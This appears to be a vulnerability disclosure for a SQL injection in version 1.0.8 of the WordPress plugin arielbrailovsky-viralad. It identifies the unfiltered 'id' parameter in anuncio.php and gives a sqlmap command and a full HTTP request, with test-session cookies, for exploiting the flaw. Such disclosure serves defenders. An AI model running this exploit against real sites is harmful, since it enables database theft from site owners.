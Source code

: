 ### The data query interface of the wordpress plugin arielbrailovsky-viralad has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/arielbrailovsky-viralad/

**Version**：1.0.8

**Route**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php

**API function**: search records

**Injection parameters**: id

**Request method**：GET

**Complete vulnerability trigger related interfaces and parameters**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php?id=2&nocache=0.4229143391443666&security=8kjyxf14sv26ot7dhrne

#### 1.Vulnerability analysis

In the anuncio.php file, when the request method is get, the parameter id is accepted, and the parameter is not filtered by any security method and is directly spliced into the SQL query statement, causing SQL injection.

![image-20250302201130415](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302201130415.png)

Therefore, attackers can construct malicious SQL statements based on this interface for injection.

#### 2.Vulnerability verification and exploitation

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
GET /wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php?id=2&nocache=0.4229143391443666&security=8kjyxf14sv26ot7dhrne HTTP/1.1
Host: wp3:82
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Referer: http://wp3:82/wp-admin/options-general.php?page
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C6a60c9d06464a51a9060e3fdf0020e0b; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C0abf1d7f8bfba5dca9d1f96d15294f9d; wp-settings-1=m6%3Do%26m9%3Do; wp-settings-time-1=1740904532; PHPSESSID=irmjinoeft5778hb5e97i155j6
Connection: close


```

![image-20250302204404843](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302204404843.png)